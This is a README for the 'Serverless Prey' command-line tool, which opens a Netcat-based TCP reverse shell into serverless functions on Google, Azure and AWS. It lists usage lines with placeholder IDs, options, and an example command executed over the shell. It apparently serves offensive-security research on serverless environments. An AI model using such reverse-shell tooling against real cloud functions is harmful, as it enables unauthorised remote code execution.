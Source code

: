 # Serverless Prey CLI

This is a command-line interface for establishing a TCP reverse shell connection to a Serverless Prey function. With it, you can accomplish steps 2 through 4 on the below diagram with a single command:

![Diagram](../diagram.png "Diagram")

## Usage

We do not recommend invoking this script directly. Instead, you can use the specific aliases for each platform:

```
cheetah/script/cheetah --url-id GOOGLE_PROJECT_ID
cougar/script/cougar --url-id AZURE_FUNCTION_APP_ID --api-key AZURE_FUNCTION_APP_API_KEY
panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY
```

### Options

* `--url-id`, `-u`: The identifier used for the function endpoint. This is the Google Project ID for Cheetah, the Azure Function App ID for Cougar, and the API Gateway ID for Panther.
* `--api-key`, `-a`: The API key for the function. This is required for all platforms except for Google (Cheetah).
* `--port`, `-p` (Optional): The port that the Netcat server will listen on. Defaults to 4444.
* `--region`, `-r` (Optional): The region in which the function is hosted. Defaults to `us-central1` for Google (Cheetah) and `us-east-1` for AWS (Panther). You do not need to provide the region in the request for Azure Function Apps, so this is not needed for Cougar.
* `--command`, `-c` (Optional): If provided, this command will be executed as soon as the connection to the Serverless container is established. The connection will be terminated one second later, and the results will be displayed. Example: `panther/script/panther --url-id AMAZON_API_GATEWAY_ID --api-key AMAZON_API_GATEWAY_API_KEY --command id # uid=496(sbx_user1051) gid=495 groups=495`
* `--loop`, `-l` (Optional): If set to true, whenever a successful connection times out, the CLI will attempt to automatically reconnect. This option is ignored if `--command` is set.
